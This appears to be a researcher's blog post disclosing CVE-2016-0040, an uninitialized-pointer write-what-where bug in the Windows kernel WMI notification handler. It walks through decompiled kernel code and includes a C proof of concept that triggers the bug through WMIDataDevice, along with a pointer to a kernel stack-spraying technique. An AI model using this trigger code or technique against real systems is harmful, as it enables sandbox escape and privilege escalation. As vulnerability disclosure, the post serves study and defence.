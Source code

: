 ```yaml
---
layout: post
title: "CVE-2016-0040 Story of Uninitialized Pointer in Windows Kernel"
date: 2024-03-29 1:1:59 +0100
categories: fuzzing
---
```

Update:

This post is a resharing of a blog I wrote about a vulnerability I discovered in Windows kernel almost a decade ago.


this vulnerablity is interesting for three reseaons 
* it's a tweetable vulnerablity :)
* it gave Write arbitrary data to arbitrary address primitive. 
* it has an amusing story associated with it. after my discovery of this vulnerability, I shared a tweet about it, which caught the attention of researchers from Microsoft. Remarkably, they were able to discern the root cause of the vulnerability simply by examining my tweet.
you can read their story in [MSRC blog](https://msrc.microsoft.com/blog/2017/06/tales-from-the-msrc-from-pixels-to-poc/)

![My image Name](/assets/tweet.png)
* there was another vulnerablity( CVE-2016-0087) in this function I had found and I was expecting MSRC to spot it when then are auditing wmi, but they didn't.


Original post:

A few months ago, I discovered some vulnerabilities in the Windows kernel, mostly related to local privilege escalation.

Microsoft patched one of the reported vulnerabilities in MS16-014. The vulnerability type is an uninitialized pointer dereference. This vulnerability can be triggered even by a process with "low integrity level", meaning that successfully exploiting this vulnerability can lead to bypassing the sandbox (for example, the IE sandbox) or generic local privilege escalation for any process.


Here's a description of the bug:

For handling some WMI functions, Windows NT creates a named device called <mark>WMIDataDevice</mark>.

This device is accessible from user mode with any permission (you can check it with WinObj). WMIDataDevice handles some IOCTLs, with the <mark>WmipReceiveNotifications</mark> function responsible for the <mark>IOCTL_WMI_ENUMERATE_GUIDS IOCTL</mark>. Based on the first DWORD of <mark>Irp->AssociatedIrp.SystemBuffer</mark>, WmipReceiveNotifications decides whether to use the <mark>stack</mark> or <mark>kernel pool</mark> as a buffer for storing data/pointers. If the first DWORD is less than or equal to 0x10, the stack is selected as the buffer.

There's another important usage of the mentioned DWORD. WmipReceiveNotifications uses this DWORD as a counter for looping and initializing the local buffer. So, if we put 0 in the first DWORD of Irp->AssociatedIrp.SystemBuffer from user mode, the function selects the stack as the buffer. As mentioned earlier, this buffer is initiated in a loop. In this case, since we passed 0, the function skips loop execution, leaving the stack buffer uninitialized.

To reach the vulnerability, we need to bypass some other condition inside WmipReceiveNotifications.


v16 comes from user mode and its value needs to be 2.
{% highlight cpp %}
v16 = *(_DWORD *)(SystemBuffer + 4);
{% endhighlight %}

Insert a valid handle for ObReferenceObjectByHandle in SystemBuffer.
{% highlight cpp %}
v39 = ObReferenceObjectByHandle(*(HANDLE *)(SystemBuffer + 16), 0x43Au, 0, 1, &PIRP, 0);
{% endhighlight %}


finally uninitialized local variable used as target pointer and function write a DWORD from SystemBuffer + 8 to it

we can control what is written but for manipulating uninitialized stack we need a good stack spray inside kernel

{% highlight cpp %}
v23 = *(_DWORD *)LocalBuffer;

*(_DWORD *)(v23 + 60) = *(_DWORD *)(SystemBuffer + 8); // Write arbitrary data to uninitialized local variable or Write-what-where condition
{% endhighlight %}

Utilizing an uninitialized local variable as a pointer to write arbitrary data to its referenced location requires the attacker to employ a stack spraying technique for successful exploitation. This vulnerability presents a "write-what-where" condition, offering multiple ways for exploitation, such as zero ACL or SET token permission.

{% highlight cpp %}
int __userpurge WmipReceiveNotifications(int SystemBuffer , unsigned int * OutputBufferSize, PVOID PIRP) {
     ...
     ...
 
     v4 = SystemBuffer;
     v5 = * OutputBufferSize;
     v6 = * (_DWORD * ) v4;
     v39 = -1073741811;
     v37 = v5;
     v36 = v6;
     if (v6 <= 0x10) // if first value inside buffer from user mode is less than or equal to 0x10 then use local stack so we pass 0 to force use local stack
     {
         LocalBuffer =& v32;;
         
     } else {
         LocalBuffer = ExAllocatePoolWithTag(PagedPool, 8 * v6, 0x70696D57 u);
         if (!LocalBuffer)
             return -1073741670;
     }
 
     we don 't go inside this if because we use passed zero
 
     v42 = 0;
     v40 = 0;
     v38 = 0;
     v44 = 0;
     v41 = 0;
     if (v6) 
{
         do {
             v39 = ObReferenceObjectByHandle( * (HANDLE * )(v4 + 8 * v41 + 24), 4 u, WmipGuidObjectType, 1,&Object, 0);
             if (v39<0) goto LABEL_55;
             v8 = Object;
             v9 = 0;
             if (v44) {
                 while (Object != * ((PVOID * ) LocalBuffer + 2 * v9)) {.......
                 }
             }
         }
     } // because v42 and v45 is set to 0 we also bypass this two if 
if ( v42 == 1 ) { ... ... ... } 
if ( v45 | BYTE3(PIRP) ) { v13 = v37; if ( v11 &v37 )
     
  * (_DWORD * )(v4 + 48) = v11; * (_DWORD * ) v4 = 56; * (_DWORD * )(v4 + 44) = 32; * OutputBufferSize = 56;
     
     ...
     ...
     ...
 
 //v16 come from user mode so we can set it's value 2 then lead code to here
 
 if (v16 != 2) 
{
     LABEL_54:
         * OutputBufferSize = 0;
     goto LABEL_55;
 }
 v39 = ObReferenceObjectByHandle( * (HANDLE * )(v4 + 16), 0x43A u, 0, 1,&PIRP, 0);
 if (v39 >= 0)
 {
     v39 = ObOpenObjectByPointerWithTag((ULONG_PTR) PIRP, 512, 0, 0x1FFFFF, 0, 0, 1953261124, (int)&v35);
     if (v39>= 0)
 {
         v23 = * (_DWORD * ) LocalBuffer; * (_DWORD * )(v23 + 60) = * (_DWORD * )(v4 + 8); // write arbitrary data from uninitialized local variable

{% endhighlight %}

# Advantages of the vulnerability:
* The bug can be triggered even in low integrity contexts.
*  It's unrelated to win32k.sys, meaning it ignores the "Win32k system call disable policy", for instance in Chrome browser.
* It works with the default OS configuration, providing a universal sandbox bypass.

Sample POC for the vulnerability
{% highlight cpp %}

typedef union {
    HANDLE Handle;
    ULONG64 Handle64;
    ULONG32 Handle32;
}
HANDLE3264, * PHANDLE3264;
 
typedef struct {
    //
    // List of guid notification handles
    //
    ULONG HandleCount;
    ULONG Action;
    HANDLE /* PUSER_THREAD_START_ROUTINE */ UserModeCallback;
    HANDLE3264 UserModeProcess;
    HANDLE3264 Handles[20];
}
WMIRECEIVENOTIFICATION, * PWMIRECEIVENOTIFICATION;
 
#define RECEIVE_ACTION_CREATE_THREAD 2 // Mark guid objects as requiring
 
typedef struct {
    IN VOID * ObjectAttributes;
    IN ACCESS_MASK DesiredAccess;
 
    OUT HANDLE3264 Handle;
}
WMIOPENGUIDBLOCK, * PWMIOPENGUIDBLOCK;
 
#define IOCTL_WMI_ENUMERATE_GUIDS\
CTL_CODE(FILE_DEVICE_UNKNOWN, WmiEnumerateGuidList, METHOD_BUFFERED, FILE_READ_ACCESS)
 
void main() {
    DWORD dwBytesReturned;
    HANDLE threadhandle;
    WMIRECEIVENOTIFICATION buffer;
    CHAR OutPut[1000];
 
    memset( & amp; buffer, '\x41', sizeof(buffer)); // set ecx to 0x41414141
    buffer.HandleCount = 0;
    buffer.Action = RECEIVE_ACTION_CREATE_THREAD;
    buffer.UserModeProcess.Handle = GetCurrentProcess(); 
 
    // using NtMapUserPhysicalPages for spraying stack cant help us
 
    HANDLE hDriver = CreateFileA("\\\\.\\WMIDataDevice", GENERIC_READ | GENERIC_WRITE, 0, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
    if (hDriver != INVALID_HANDLE_VALUE) {
        while (TRUE) {
            if (!DeviceIoControl(hDriver, IOCTL_WMI_RECEIVE_NOTIFICATIONS, & amp; buffer, sizeof(buffer), & amp; OutPut, sizeof(OutPut), & amp; dwBytesReturned, NULL)) {
                return;
            }
        }
 
    }
 
}
{% endhighlight %}

in order to exploit this vulnerablity we have to spary kernel stack memory, after talking with Mateusz Jurczyk he told me about 
[using nt!NtMapUserPhysicalPages an excellent technique to Spraying Kernel Stack memory](https://j00ru.vexillium.org/2011/05/windows-kernel-stack-spraying-techniques/) 

with help of above method I managed to exploit this vulnerablity and I had a plan to participate to <mark>Pwn2Own</mark> in windows kernel catagorty, but Microsoft spotted my vulnerablity with a simple miskate I did by tweeting about it. 

[jekyll-docs]: https://jekyllrb.com/docs/home
[jekyll-gh]:   https://github.com/jekyll/jekyll
[jekyll-talk]: https://talk.jekyllrb.com/




